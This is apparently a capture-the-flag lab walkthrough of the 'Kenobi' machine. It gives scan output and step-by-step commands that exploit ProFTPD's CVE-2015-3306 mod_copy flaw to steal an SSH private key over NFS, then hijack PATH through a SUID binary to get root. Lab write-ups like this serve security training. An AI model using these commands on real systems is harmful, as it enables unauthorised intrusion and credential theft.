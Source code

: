 <pre>
Ran service discovery scan
- nmap -Pn -A -sV -Sc -F

Results:

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn&apos;t have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)  &lt;&lt;!
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      45831/tcp6  mountd
|   100005  1,2,3      54366/udp   mountd
|   100005  1,2,3      54927/tcp   mountd
|   100005  1,2,3      59568/udp6  mountd
|   100021  1,3,4      33981/tcp   nlockmgr
|   100021  1,3,4      36425/tcp6  nlockmgr
|   100021  1,3,4      49118/udp6  nlockmgr
|   100021  1,3,4      54719/udp   nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)  &lt;&lt;!
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m00s, deviation: 3h27m51s, median: 0s
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: &lt;unknown&gt;, NetBIOS MAC: &lt;unknown&gt; (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu) &lt;&lt;!
|   NetBIOS computer name: KENOBI\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-01-14T14:19:57-06:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-01-14T20:19:57
|_  start_date: N/A


Noteable finds:
 - port 111 rpcbind
 - port 445 samba service
 - port 21 proFTPD server version 1.3.5
--------------------------------------------------------------------------------------------------

Enumerating samba:

Ran smb enumeration scan with nmap
 - nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.66.72

Scan Results:
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.66.72\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.66.72\anonymous: <<!
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share <<!
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.66.72\print$:
|     warning: Couldn't get details for share: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|     Anonymous access: <none>
|    Current user access: <none>
|_______________________________________________________________________

Noteable finds:
 - user kenobi
 - user anonymous

connecting via smbclient:
 - smbclient //10.10.241.98/anonymous
 - found file log.txt, permission denied
 - downloaded log.txt onto host machine using smbget -R smb://10.10.241.98/anonymous
 - log.txt was a proFTPD config file
 - port 21 is default port for proFTPD
--------------------------------------------------------------------------------------------------

Identifying Vulnerabilities:
 - ProFTPD 1.3.5 Server
 - vulnerable to CVE-2015-3306
 - mod_copy_module allows attackers to read/write arbitrary files via (site cpfr and site cpto) commands

Additional Notes:
 mod_copy_module implements SITE CPTO/SITE CPFR commands which is used to copy,
 files/directories from the server without transferring data to the client and back
 --------------------------------------------------------------------------------------------------

Enumerating file system on port 111 with nmap:
 - nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.241.98
 - found mount /var
--------------------------------------------------------------------------------------------------

Exploiting cve-2015-3306:

Mounting /var/ dir. to host machine
 - sudo mkdir /mnt/kenobiNFS
 - sudo mount 10.10.241.98:/var /mnt/kenobiNFS

Copying kenobi's Private key to mounted /var/ dir.
 - nc 10.10.241.98 21
 - SITE CPFR /home/kenobi/.ssh/id_rsa
 - SITE CPTO /var/tmp/id_rsa
--------------------------------------------------------------------------------------------------

Gaining local Privilege Escalation:

Copy private key from mount to host machine dir. in order to use for priv esc
 - cp /mnt/kenobiNFS/tmp/id_rsa
 - sudo chmod 600 id_rsa (connecting via ssh requires private key file to have strict permissions)
 - ssh -i id_rsa kenobi@10.10.241.98

Gained local priv esc
--------------------------------------------------------------------------------------------------

Gaining Root via Path Manipulation:
- searched for binary files with suid bit permission (execs file as owner)
- find / -perm -u=s -type f 2>/dev/null
- found /usr/bin/menu it runs as root w/ no path

Running the binary returns,

********************
1. status check
2. kenrel version
3. ifconfig
** Enter your choice:
*********************

Creating a shell to gain root
 - echo /bin/sh > curl (copies shell to curl)
 - chmod 777 curl
 - export PATH=/tmp:$PATH (Puts the shell in our /tmp path)
 - /usr/bin/menu

 When /usr/bin/menu is run it uses our path to find the 'curl' binary,
 because the menu binary runs as root so does our shell gaining root access.
--------------------------------------------------------------------------------------------------
</pre>

